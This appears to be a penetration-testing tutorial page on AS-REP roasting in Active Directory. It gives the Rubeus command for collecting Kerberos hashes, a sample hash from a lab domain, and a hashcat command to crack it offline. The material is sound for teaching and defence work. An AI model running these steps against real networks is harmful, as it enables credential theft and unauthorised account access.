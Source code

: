 # AS-REP Roasting

AS-REP roasting is a technique that allows retrieving password hashes for users that have `Do not require Kerberos preauthentication` property selected:

![](../../.gitbook/assets/screenshot-from-2019-03-12-21-08-33.png)

Those hashes can then be cracked offline, similarly to how it's done in [[Kerbroasting]].

## Execution

```cmd
.\Rubeus.exe asreproast
```



### Cracking AS-REP Hashes with HashCat

Say this is the hash we get for the potential victim:

```text
$krb5asrep$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA
```

We need to insert `23` after the `$krb5asrep$` like so:

```text
$krb5asrep$23$spot@offense.local:3171ea207b3a6fdaee52ba247c20362e$56fe7dc0caba8cb7d3a02a140c612a917df3343c01bcdab0b669efa15b29b2aebbfed2b4f3368a897b833a6b95d5c2f1c2477121c8f5e005aa2a588c5ae72aadfcbf1aedd8b7ac2f2e94e94cb101e27a2e9906e8646919815d90b4186367b6d5072ab9edd0d7b85519fbe33997b3d3b378340e3f64caa92595523b0ad8dc8e0abe69dda178d8ba487d3632a52be7ff4e786f4c271172797dcbbded86020405b014278d5556d8382a655a6db1787dbe949b412756c43841c601ce5f21a36a0536cfed53c913c3620062fdf5b18259ea35de2b90c403fbadd185c0f54b8d0249972903ca8ff5951a866fc70379b9da
```

We can then crack it:


```csharp
hashcat -m18200 '$krb5asrep$23$spot@offense.local:3171EA207B3A6FDAEE52BA247C20362E$56FE7DC0CABA8CB7D3A02A140C612A917DF3343C01BCDAB0B669EFA15B29B2AEBBFED2B4F3368A897B833A6B95D5C2F1C2477121C8F5E005AA2A588C5AE72AADFCBF1AEDD8B7AC2F2E94E94CB101E27A2E9906E8646919815D90B4186367B6D5072AB9EDD0D7B85519FBE33997B3D3B378340E3F64CAA92595523B0AD8DC8E0ABE69DDA178D8BA487D3632A52BE7FF4E786F4C271172797DCBBDED86020405B014278D5556D8382A655A6DB1787DBE949B412756C43841C601CE5F21A36A0536CFED53C913C3620062FDF5B18259EA35DE2B90C403FBADD185C0F54B8D0249972903CA8FF5951A866FC70379B9DA' -a 3 /usr/share/wordlists/rockyou.txt
```



## References

https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/
https://jsecurity101.com/2019/IOC-differences-between-Kerberoasting-and-AsRep-Roasting/
https://blog.xpnsec.com/kerberos-attacks-part-2/